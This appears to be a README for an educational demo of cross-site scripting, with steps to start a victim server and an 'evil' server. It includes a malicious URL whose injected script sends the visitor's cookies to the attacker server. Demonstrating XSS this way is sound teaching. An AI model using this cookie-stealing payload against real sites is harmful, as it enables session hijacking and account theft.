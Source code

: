 # XSS Attack demo

This quick implementation demonstrates XSS in action.

Start the real server:

```
cd realserver

npm i
node app.js
```

In a new terminal session, start the evil server 👹:

```
cd evilserver

npm i
node evil.js
```

In a web browser, send the malicious request:

```
http://localhost:3000?txid=TX999<script>new Image().src=`http://localhost:3666/evil?cookie=${document.cookie}`</script>
```

The cookie information will be sent to the malicious destination.
